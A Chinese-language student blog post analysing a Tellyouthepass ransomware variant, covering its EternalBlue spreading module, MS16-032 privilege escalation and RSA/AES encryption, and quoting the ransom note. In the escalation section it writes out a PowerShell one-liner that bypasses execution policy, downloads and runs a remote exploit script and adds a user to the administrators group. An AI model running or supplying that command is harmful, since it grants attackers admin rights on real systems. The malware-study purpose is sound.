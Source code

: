 ```yaml
---
categories: 二进制
date: 2022-02-07 17:21:10
layout: post
tags: null
title: Ransomware analysis
---
```


对某勒索软件进行分析，题目来源于`恶意软件`课程的大作业。

包含两个文件，名称分别如下

```python
0a0d5d2d3c663c54a92cb11f7102eb39
6b9dbf198890b690358fcfc943167373
```

搜索发现其是Tellyouthepass勒索病毒的变种。

腾讯安全在[此文章](http://www.hackdig.com/07/hack-103589.htm)中说，攻击者利用压缩工具打包exe的方式，将`ms16-032内核提权漏洞利用模块`、`永恒之蓝内网扩散模块`集成到勒索攻击包中，以实现内网蠕虫式病毒传播。

但是之后就没再找到更详细的分析文章了。



解压缩，得到如下三个文件。awindows_privedge.exe会启动剩下的两个文件。
![1-software](/Ransomware analysis/1-software.png)

## 1、lantools_exp.exe---永恒之蓝

参考文章[1]给出如下分析

```python
该模块为针对smb进行攻击利用的工具集，其中包含了对smb服务的远程探测，smb登录psexec命令执行，端口扫描，http服务搭建等功能，同时该工具包含了永恒之蓝漏洞高危漏洞（MS17-010）的攻击利用，该模块运行后将进行内网蠕虫扩散debug.exe病毒模块。
```



## 2、awindows_privedge.exe---提权

查看其导入表，发现有和privilege和token相关的函数。

查看硬编码的字符串，发现和ms16-032提权漏洞相关的内容。攻击者的目的是以system权限执行其他攻击模块。

![2-ms16-032](/Ransomware analysis/2-ms16-032.png)



随后尝试在windows7上进行ms16-032提权漏洞复现。

首先查看XX用户的信息

```python
net user XX
```

打开powershell执行如下语句

```python
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup administrators px /add'" 
```

出现如下错误，url解析错误，原来的网址已经无法访问了。

![3-failed](/Ransomware analysis/3-failed.png)



参考教程：https://evi1cg.me/archives/MS16-032-Windows-Privilege-Escalation.html

此外没找到对漏洞详细的分析文章，都是一条命令直接利用。就先不看这里啦～



## 3、勒索模块---加密

debug.exe解压缩，得到windbug.exe和debug.bat。

![4-debug](/Ransomware analysis/4-debug.png)

debug.bat的内容为：`start C:\Windows\windebug.exe`，而windebug.exe是主要的勒索模块。

ida打开windbug.exe，查看字符串，推断其是由go语言所编写的。



在sub_500CD0()函数中找到了让受害者支付比特币的字符串

![5-pay](/Ransomware analysis/5-pay.png)

```python
"<html>\n<head>\n<title>\nRecovery your files.\n</title>\n<style type=\"text/css\">\n\t.main {height:auto; width:100%;word-wrap:break-word}\n</style>\n</head>\n<body>\n<font color=#8B0000>\n<b>I am so sorry ! All your files have been encryptd by RSA-1024 and AES-256 due to a computer security problems.</b></br>\n<b>If you think your data is very important .The only way to decrypt your file is to buy my decrytion tool .</b></br>\n<b>else you can delete your encrypted data or reinstall your system.</b></br>\n</br>\n<h2>Your personid :</h2>\n<div class=\"main\">\n<b>ITSSHOWKEY</b></div></br>\n</br>\n</br>\n<h2>Decrytion do as follows:</h2>\n<b>1. if you not own bitcoin,you can buy it online on some websites. like https://localbitcoins.net/ or https://www.coinbase.com/  .</b></br>\n<b>2. send ITSBTC btc to my wallet address ITSADDR.</b></br>\n<b>3. send your btc transfer screenshots and your persionid to my email ITSEMAIL . i will send you decrytion tool.</b></br>\n</br>\n</br>\n<h2>Tips:</h2>\n<b>1.don't rename your file </b></br>\n<b>2.you can try some software to decrytion . but finally you will kown it's vain . </b></br>\n<b>3.if any way can't to contact to me .you can try send me bitcoin and paste your email in the transfer information. i will contact you and send you decrytion tools.</b></br>\n</br>\n</br>\n<b>Anything you want to help . please send mail to my email ITSEMAIL.</b></br>\n<b>Have a nice day . </b>\n</font>\n<body>\n</html>\n",
```



下文描述一些加密方式。

还是关注勒索模块，检查字符串发现有如下的字符串

```python
rsa.PrecomputedValues
crypto/aes
crypto/rsa
```

并且根据之前的文字提示

```python
All your files have been encryptd by RSA-1024 and AES-256 due to a computer security problems.
```

推测由AES和RSA加密。

在 sub_503530 中，恶意代码在用户机器上为用户生成 RSA-1024 公私钥pk_user/sk_user，保存在两个全局变量 dword_5F7F50、dword_5F7F54 中。

![6-rsa](/Ransomware analysis/6-rsa.png)



RSA2048公钥如下：

![7-rsa_pub](/Ransomware analysis/7-rsa_pub.png)

更加详细的加密方式可查阅参考文章[1]。

恶意软件整体的流程可查阅参考文章[2]，包括退出当前程序，扫描目录，设置白名单等。

自己目前水平还是太低，没有找到更加详细的分析文章，同时也不具备独立分析的能力，只能理解到这个程度了。还是需要努力学习哇！！



## 参考文章

【1】[Tellyouthepass勒索病毒利用永恒之蓝漏洞来袭，已有企业受害](http://www.hackdig.com/07/hack-103589.htm)

【2】[[TellYouThePass勒索病毒样本分析](https://bbs.360.cn/thread-15831380-1-1.html)](https://bbs.360.cn/thread-15831380-1-1.html)
